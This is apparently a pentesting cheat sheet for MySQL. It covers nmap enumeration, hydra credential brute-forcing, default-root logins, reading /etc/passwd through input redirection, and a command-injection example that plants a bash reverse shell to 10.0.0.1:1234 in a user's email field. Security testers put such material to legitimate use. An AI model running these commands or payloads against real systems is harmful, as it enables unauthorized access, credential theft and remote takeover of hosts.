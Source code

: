 ```yaml
---
title: MySQL Pentesting
description: It is a relational database management system. A default port is 3306.
tags:
    - Database
    - Privilege Escalation
refs:
date: 2023-11-21
draft: false
---
```


## Enumeration

```sh
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> mysql
hydra -L usernames.txt -p password <target-ip> mysql
```

<br />

## Configuration Files

```sh
cat /etc/mysql/my.cnf
cat /etc/mysql/mysql.conf.d/mysqld.cnf
```

<br />

## Connect

`mysql` command can be replaced with `mariadb` .

### Local

```sh
# No password
mysql -u username

# With Password
mysql -u username -p

# Specity database name
mysql -u username -p database_name

# Execute commands
mysql -u username -p database_name -e "show databases;"
echo '<password>' | mysql -u username -p database_name -e "show databases;"

# Execute commands via a file
echo 'show tables;' > example.sql
mysql -u username --password='password' database_name -v < example.sql

# Read arbitrary files
mysql -u username --password='password' database_name -v < /etc/passwd
```

### Remote

```sh
mysql -u username -p -h <target-ip> -P 3306

# Without password (remove -p)
mysql -u username -h <target-ip> -P 3306

# Specify database (-D)
mysql -u username -p -h <target-ip> -D database_name

# Default credential (username: root, no password)
mysql -u root -h <target-ip> -P 3306
```

<br />

## Commands

### Execute from File

After connecting MySQL, you can execute SQL commands from a `.sql` file.  
Note that we need to change the current directory to the directory in which the `.sql` file is located.

```sh
mysql> source example.sql
```

### Basic Commands

Belows are basic commands.

```sh
# List mysql users
mysql> select user from mysql.user;
# List privileges of each user
mysql> select user,select_priv,insert_priv,update_priv,delete_priv,create_priv from mysql.user;

# Display databases
mysql> show databases;

# Switch to the database
mysql> use db_name;

# Display tables in the current database
mysql> show tables;
# Display tables and table type
mysql> show full tables;
# Display tables in the database
mysql> show tables from <database>;
# Display tables which names start with 'user'
mysql> show tables like 'user%';
# Display tables which names start with 'user' in the database
mysql> show tables from <database> like 'user%';

# Display columns in a given table
mysql> show columns from <table>;

# Display everything in the table
mysql> select * from <table>;

# Create new table
mysql> create table table_name(column_name column_type);
mysql> create table table_name(user_id int, user_name varchar(40));

# Create an user-defined function
mysql> create function func_name(param1, param2) returns datatype;
mysql> create function new_fund(age integer) returns integer;

# Use a function
mysql> select func_name(param1, param2);

# Insert new record to a given table
mysql> insert into <table> values(value1, value2);

# Update data in a given table
mysql> update <table> set <column>='<value>';
mysql> update <table> set <column1>='<value1>',<column2>='<value2>';
# e.g.
mysql> update users set role='admin' where username='john';

# Delete a record
mysql> delete from <table> where <column> = <value>;
# e.g.
mysql> delete from users where id = 2;
```

### Command Injection

We can inject the OS command to column values e.g. email address.  
Depending on the situation, we may be able to execute arbitrary command.

```bash
# Update existing user email to execute reverse shell
mysql> update exampledb.users SET email='admin@shell|| bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1" &' where name like 'admin%';
```

### System Commands

We can run the system command in MySQL shell as below. Depending on the situation, we may be able to escalate privileges.

```bash
mysql> system whoami
mysql> system bash
```
